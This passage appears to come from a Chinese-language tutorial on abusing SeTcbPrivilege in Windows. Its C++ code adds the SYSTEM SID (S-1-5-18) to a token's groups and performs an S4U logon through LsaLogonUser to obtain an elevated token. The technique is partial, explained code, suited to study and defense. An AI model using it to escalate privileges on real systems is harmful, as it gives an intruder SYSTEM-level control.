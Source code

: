 也正是通过这个结构，将 NT AUTHORITY\SYSTEM 账户的 SID（S-1-5-18）加入生成的模拟令牌中，如下所示。

```c++
// Add extra SID to token.
// If the application needs to connect to a Windows Desktop, Logon SID must be added to the Token.
wprintf(L"[*] Add extra SID S-1-5-18 to token.\n");
pGroups = (PTOKEN_GROUPS)LocalAlloc(LPTR, sizeof(TOKEN_GROUPS) + 2 * sizeof(SID_AND_ATTRIBUTES));
if (pGroups == NULL)
{
  wprintf(L"[-] LocalAlloc Error: [%u].", GetLastError());
  goto Clear;
}

// Add Logon Sid, if present.
if (pLogonSid)
{
  pGroups->Groups[pGroups->GroupCount].Attributes = SE_GROUP_ENABLED | SE_GROUP_ENABLED_BY_DEFAULT | SE_GROUP_MANDATORY;
  pGroups->Groups[pGroups->GroupCount].Sid = pLogonSid;
  pGroups->GroupCount++;
}

// If an extra SID is specified to command line, add it to the pGroups structure.
pGroups->Groups[pGroups->GroupCount].Attributes = SE_GROUP_ENABLED | SE_GROUP_ENABLED_BY_DEFAULT | SE_GROUP_MANDATORY;
pGroups->Groups[pGroups->GroupCount].Sid = pExtraSid;
pGroups->GroupCount++;
```

完成上面这些初始化后，将调用 `LsaLogonUser()` 函数执行 S4U 登录过程，登录得到的模拟令牌将保存在 `hTokenS4U` 中，如下所示。

```c++
// Call LSA LsaLogonUser
// This call required SeTcbPrivilege privilege:
//    - [1] to get a primary token (vs impersonation token). The privilege MUST be activated.
//    - [2] to add supplemental SID with LocalGroups parameter.
//    - [3] to use a username with a domain name different from machine name (or '.').

status = LsaLogonUser(
  hLSA,
  &OriginName,
  Network,                // Or Batch
  ulAuthenticationPackage,
  pS4uLogon,
  dwMsgS4ULength,
  pGroups,                // LocalGroups
  &TokenSource,           // SourceContext
  &pvProfile,
  &dwProfile,
  &logonId,
  &hTokenS4U,
  &quotaLimits,
  &subStatus
);
if (status != STATUS_SUCCESS)
{
  wprintf(L"[-] LsaLogonUser Error: [0x%x].", status);
  goto Clear;
}
```
